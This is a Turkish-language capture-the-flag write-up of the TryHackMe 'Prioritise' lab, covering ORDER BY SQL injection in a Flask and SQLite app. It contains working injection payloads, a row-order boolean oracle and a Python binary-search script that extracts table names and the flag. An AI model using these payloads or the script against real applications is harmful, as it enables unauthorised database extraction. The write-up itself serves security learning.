

> TryHackMe · Web Exploitation / SQL Injection · Medium
{: .prompt-info }

Basit bir to-do list uygulaması, görevleri önceliğe göre sıralıyor — ve bu sıralamayı belirleyen `order` parametresi hiç filtrelenmeden SQL sorgusuna ekleniyor. Ama klasik "UNION ile alt sorguyu çok satırlı yap, hata fırlat" tekniği burada işe yaramıyor: arka uç SQLite, ve SQLite tek değer beklenen yerde çoklu satır dönen bir alt sorguda **hata vermiyor**, sessizce ilk satırı alıyor. Bu yüzden hata tabanlı oracle yerine, `ORDER BY` ifadesinin kendisini bir anahtar olarak kullanıp sonuçtaki **satır sırasını** boolean oracle'a çevirmek gerekti.

| Hedef | Zorluk | Kategori |
|---|---|---|
| Prioritise (Flask + SQLite) | Medium | Web Exploitation / SQL Injection |

**Zincir:** Firefox DevTools Network sekmesinde görev eklerken giden isteği incelemek → bir sütun başlığına tıklanınca ortaya çıkan `?order=title` GET parametresini fark etmek → tek tırnakla (`?order=title'`) 500 hatası tetikleyip injection'ı doğrulamak → `?order=1` ile parametrenin tırnaksız/çıplak bir ifade bağlamında kullanıldığını teyit etmek → `(SELECT CASE WHEN (kosul) THEN (SELECT 1 UNION SELECT 2) ELSE 1 END)` tarzı klasik çok-satır-hata oracle'ının SQLite'ta işe yaramadığını keşfetmek → bunun yerine `(CASE WHEN (kosul) THEN title ELSE date END)` ile sıralama sütununu koşula göre değiştirip, sonuçtaki görev sırasını boolean oracle olarak kullanmak → bu oracle'ı Python + `requests` ile otomatikleştirip `LENGTH()`/`UNICODE(SUBSTR())` üzerinden binary search tabanlı karakter çıkarma yapmak → `sqlite_master`'dan tablo adlarını (`todos`, `flag`), ardından `flag` tablosunun sütununu ve değerini çekmek.

## 01 — Uygulamayı keşfetmek



Uygulama tek bir formla (`title`, `date`) görev ekliyor (`POST /new`), ana sayfada (`GET /`) listeliyor. Sağ üstteki **"Sort by"** seçicisi, listeyi hangi sütuna göre sıralayacağını belirliyor — ilk bakışta zararsız bir UX detayı.

## 02 — Sıralama parametresini bulmak

Bir sütun başlığına tıklayınca tarayıcının gönderdiği isteği Network sekmesinde yakaladım:

```
GET /?order=title
```

Bu, listeyi backend'de muhtemelen `ORDER BY {order}` şeklinde, doğrudan sorguya eklenen bir parametre olduğunu gösteriyordu.

## 03 — Injection'ı doğrulamak

```
http://<target>/?order=title'
```

→ **500 Internal Server Error**. Tek bir tırnak sayfayı kırdı — klasik SQL injection işareti.

Bağlamı netleştirmek için çıplak bir sayı denedim:

```
http://<target>/?order=1
```

→ **200 OK**, sayfa normal açıldı. Bu, parametrenin tırnak içinde bir string literal değil, **çıplak bir ifade** (`ORDER BY {order}`, sütun ordinal'i veya ifade olarak) context'inde kullanıldığını doğruladı.

## 04 — Klasik hata-tabanlı oracle'ın başarısız olması

`ORDER BY` içinde `UNION SELECT` ile veri çekmek doğrudan mümkün değil, ama bilinen bir teknik var: bir alt sorguyu koşula bağlı olarak çok satırlı yapıp, "tek değer beklenen yerde çoklu satır" hatasını boolean oracle olarak kullanmak.

```
# Kosul TRUE (1=1): alt sorgu 2 satir donuyor -> hata beklenir
?order=(SELECT CASE WHEN (1=1) THEN (SELECT 1 UNION SELECT 2) ELSE 1 END)

# Kosul FALSE (1=2): alt sorgu 1 satir donuyor -> normal beklenir
?order=(SELECT CASE WHEN (1=2) THEN (SELECT 1 UNION SELECT 2) ELSE 1 END)
```

İkisi de **200 OK** döndü. MySQL/PostgreSQL'de bu payload güvenilir şekilde hata fırlatırdı, ama **SQLite, skaler bir bağlamda çoklu satır dönen alt sorguda hata vermiyor** — sessizce ilk satırı alıyor. Bu, hata tabanlı oracle'ı burada kullanılamaz kılıyor.

> Bir blind SQLi tekniğinin bir veritabanında çalışması, hepsinde çalışacağı anlamına gelmiyor. SQLite'ın MySQL/PostgreSQL'den farklı skaler-subquery semantiği, standart bir oracle'ı sessizce geçersiz kılabiliyor — hatasızlık, "injection yok" demek değil, "bu oracle işe yaramıyor" demek.
{: .prompt-tip }

## 05 — Farklı bir oracle: sıralama sütununu koşula göre değiştirmek

Hata yerine, **görünür sonucun kendisini** oracle yaptım — `ORDER BY` ifadesini, koşula göre iki farklı sütun arasında geçiş yapacak şekilde kurdum:

```
?order=(CASE WHEN (kosul) THEN title ELSE date END)
```

Üç test görevi (`deneme`, `deneme2`, `deneme3`, farklı tarihlerle) üzerinde, `1=1` ve `1=2` koşullarıyla test ettiğimde liste **görünür şekilde farklı sırada** geldi:

- `kosul=TRUE` → `title`'a göre sıralı (alfabetik: deneme, deneme2, deneme3)
- `kosul=FALSE` → `date`'e göre sıralı (kronolojik, farklı bir sıra)

Güvenilir bir gösterge olarak, `deneme`'nin benzersiz tarihinin (`2026-11-03`) ham HTML'de `deneme2` metninden önce mi sonra mı geldiğini kullandım — bu, title/date sıralaması arasındaki farkı tek bir index karşılaştırmasına indirgedi.

## 06 — Oracle'ı otomatikleştirmek: binary search ile veri çıkarma

Elle yüzlerce URL denemek yerine, oracle'ı saran bir Python betiği yazdım. Çekirdek mantık:

```python
def is_true(condition: str) -> bool:
    order = f"(CASE WHEN ({condition}) THEN title ELSE date END)"
    resp = requests.get(BASE, params={"order": order}, timeout=10)
    text = resp.text
    idx_deneme_date = text.find("2026-11-03")
    idx_deneme2 = text.find("deneme2")
    return idx_deneme_date < idx_deneme2


def get_char_at(subquery: str, pos: int) -> str:
    lo, hi = 0, 255
    while lo < hi:
        mid = (lo + hi) // 2
        if is_true(f"UNICODE(SUBSTR(({subquery}), {pos}, 1)) > {mid}"):
            lo = mid + 1
        else:
            hi = mid
    return chr(lo)
```

Her karakter için `UNICODE(SUBSTR(...))` değerini binary search ile daraltıyor (~8 istek/karakter), önce `LENGTH()` ile hedef string'in uzunluğunu buluyor, sonra karakter karakter çıkarıyor.

## 07 — Veritabanını haritalamak ve flag'i bulmak

```console
$ python3 exploit.py
[*] Tablo adlari cikariliyor...
[+] Tablolar: todos,flag
[*] flag tablosunun sutunlari cikariliyor...
[+] Sutunlar: flag
[*] flag.flag cikariliyor...
[+] FLAG: flag{...}
```

Sırasıyla:
1. `SELECT group_concat(name) FROM sqlite_master WHERE type='table'` → `todos`, `flag` tabloları
2. `SELECT group_concat(name) FROM pragma_table_info('flag')` → tek sütun: `flag`
3. `SELECT flag FROM flag LIMIT 1` → flag değeri

Üçü de aynı `extract()` fonksiyonuyla, sadece subquery değiştirilerek çekildi.

## Özet — Öğrenilen teknikler

- **`ORDER BY` injection, `WHERE` injection'dan farklı bir araç seti gerektirir.** UNION doğrudan kullanılamaz; hata tabanlı veya satır-sırası tabanlı oracle'lara ihtiyaç var.
- **Veritabanı motoru, hangi oracle'ın çalışacağını belirler.** SQLite'ın çoklu-satır skaler subquery'de sessiz kalması, MySQL/PostgreSQL'de işe yarayan klasik bir tekniği burada geçersiz kıldı.
- **Oracle olarak hata şart değil — gözlemlenebilir herhangi bir fark yeterli.** Sonucun sıralamasını (hangi satırın önce geldiğini) boolean sinyal olarak kullanmak, hatasız bir ortamda bile blind extraction'ı mümkün kıldı.
- **Benzersiz, format-bağımsız bir gösterge seçmek önemli.** İlk denemede HTML'in tam etiket yapısına (`>deneme<`) güvenen bir gösterge, gerçek whitespace/satır sonu farklarıyla kırıldı; her görevin benzersiz tarihini kullanmak bunu çözdü.
- **Binary search, karakter-karakter blind extraction'ı pratik hale getiriyor.** Doğrusal (0-255) denemek yerine ~8 istekte bir karakteri buluyor — tam bir tablo/flag çıkarımını saniyeler mertebesine indiriyor.

---

Kişisel TryHackMe lab notu — Prioritise, eğitim/lab ortamı. Flag değerleri platform politikası gereği bu belgede paylaşılmamıştır.
